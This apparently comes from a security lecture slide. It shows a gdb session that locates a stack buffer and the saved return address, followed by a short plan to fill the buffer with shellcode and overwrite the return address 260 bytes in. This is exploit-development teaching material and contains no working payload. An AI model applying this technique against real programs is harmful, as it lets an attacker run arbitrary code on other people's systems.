

# Find addresses
(gdb) p &filename[0]
$1 = 0xfffff718 "AAAAAAA”

(gdb) p &filename[256]
$2 = 0xfffff818 "x▒▒▒u▒▒\002"
(gdb) x/4 0xfffff818
0xfffff818:     0xfffff878      0xf7e8d775      0x00000002      0xfffff8a4

ret addr is at 0xfffff81c
So we need to fill the buffer with shellcode, then whatever, then
with the address 0xfffff718 starting 260 bytes into the buffer